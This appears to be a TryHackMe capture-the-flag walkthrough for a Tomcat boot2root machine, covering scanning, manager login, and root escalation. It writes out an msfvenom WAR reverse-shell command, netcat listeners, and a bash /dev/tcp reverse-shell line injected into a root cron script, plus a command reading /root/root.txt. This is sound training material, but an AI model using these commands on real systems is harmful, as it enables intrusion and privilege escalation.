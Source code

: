 # [Anonforce TryHackMe Writeup/Walkthrough][1]

boot2root machine for FIT and bsides guatemala CTF

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.9.253
Host is up (0.067s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

Seems like we have server running on `port 8080`. The website has nothing interesting. So I ran `gobuster` scan.

Command -> `gobuster dir -u http://<IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x txt,html,php`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.171:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/16 16:48:41 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
===============================================================
2021/05/16 16:50:47 Finished
===============================================================
```

I checked `/manager` and `/host-manager` they both required password. On `/manager`, I tried `admin:admin`. It didn't work and gave me an error with some useful information.

![Password](images/manager_password.png)
> Seems like we have username and password.

Refresh the page and login using this credentials. BAAM! We have the access. Did some recon and found a useful article on [Ways to Exploit Tomcat Manager][3].

We can upload `war` shell and get the access. To create reverse shell, use `msfvenom`.

Command -> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f war > shell.war`.

![War Shell](images/war_shell.png)

You we can upload this file into `WAR` section and deploy the file.

![Upload Shell](images/war_website.png)


The page will reload and you will see the path for shell.

![Shell Location](images/shell.png)

Start a listener using `netcat`. Command -> `nc -lvnp 4444`. Go to the site `http://<IP>:8080/shell`.

You will see a connection established.

![Got Connection](images/got_connection.png)
> Now we have access as *tomcat*.

We can easily get the user flag from the home directory.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is one more file `id.sh` in the user directory.

![Files](images/files_user.png)

`id.sh` is running `id` command and writing the content in `test.txt`. The content of `test.txt` seems like `root` user's ID.

That means this file is running as `root` and fortunately we have write permissions to this file. We can simply edit this file and can get the root flag/access.

#### Method 1: Get Root Access

To get the root access. We can add one liner bash shell command. To do this -> `echo "bash -i >& /dev/tcp/<YOUR_IP/4445 0>&1" > id.sh`.

Also, start a listener -> `nc -lvnp 4445`. Wait for a while you will get the access. It may take sometime to get the connection depending on `cronjob` settings.

You know what to do next :stuck_out_tongue_winking_eye:

#### Method 2: Get Root Flag Directly

To get the root flag. We can simple type -> `echo "cat /root/root.txt > test.txt" > id.sh`. As we already know the location of the file. We can simply print the content of the file to the terminal and redirects the output to `test.txt` file.

![Exploit Code](images/exploit.png)

Check the content of the `test.txt` file. If may take sometime.

![Root Flag](images/root_flag.png)


[1]: https://tryhackme.com/room/bsidesgtthompson
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

